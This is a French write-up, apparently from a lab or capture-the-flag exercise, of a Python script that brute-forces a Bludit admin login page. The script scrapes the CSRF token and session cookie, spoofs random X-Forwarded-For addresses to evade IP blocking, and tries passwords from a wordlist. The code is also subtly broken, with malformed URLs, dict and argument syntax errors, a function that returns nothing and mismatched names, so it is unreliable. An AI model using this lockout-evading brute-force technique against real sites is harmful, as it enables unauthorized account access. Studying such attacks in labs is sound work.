 # Contexte

- Programme python essayant de bruteforcer une page de login à l'aide d'un dictionnaire.txt
- Utilisation d'une regex pour pouvoir récupérer un champs dans l'initialisation de session
- Utilisation de random pour pouvoir générer une nouvelle adresse IP sur un champs 'X-Forwarded-for' pour éviter de se faire ban ip suite au bruteforce
- Utilisation d'un dictionnairep pour renseigner les différent mdp à utiliser (on connais déjà l'user qui est fergus)
- Redirection des requêtes vers un proxy local pour analyser les requêtes et la façon dont elles sont construites = Vérifier qu'elles correspondent bien à des requêtes légitimes et compréhensibles pour le site en question.

# Script 

```py
import requests
import re
import random

HOST = '192.168.0.1'
USER = 'admin'
PROXY = {'http://127.0.0.1:8080'}

def init_session():
    # Return CSFR + Session Cookie
    r = requests.get('http://{HOST}}/admin') # On récupère la page /admin dans la variable "r"
    # On recherche la ligne contenant le champ qui nous intéresse dans la réponse "r" à l'aide d'une regex
    csfr = re.search(r'input type=hidden id="jstokenCSFR" name="tokenCSFR" value="([a-z0-9]*)"', r.text)
    csfr = csfr.group(1) # Sélection le champ dans la regex 
    # DEBUG CSRF : Return csrf + print (init_sesion()) pour débug
    cookie = r.cookies.get('BLUDIT-KEY')


def login(user,password):
    csrf,cookie=init_sesion()
    data = {
            'tokenCSFR':csfr,
            'username':user,
            'password':password,
            'save': }
    cookies = {
        'BLUDIT-KEY' = cookie
    }
    header = {
        'X-Forwarded-For' : f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
    }        
    p = requests.post('http://{HOST}}/admin/login', data=data, cookies=cookie, headers = header, proxies=PROXY, allow_redirects:False ) # On regarde les champs à renseigner grâce à BurpSuite en analysant la requête POST 
# On fait attention à l'adresse du POST et à tout les autres champs
    
    if p.status_code != 200:
        print(f"{USER}:{password}")
        return True
    elif "password incorrect" in p.text:
        return False
    elif "has been blocked" in p.text:
        print("IP BLOCKED")
        return False
    else:
        print (f"{USER}:{password}")



wordlist = open('dictionnaire.txt').readlines()
for line in wordlist:
        line=line.strip()
        login(USER,line)
        #print(line)
```

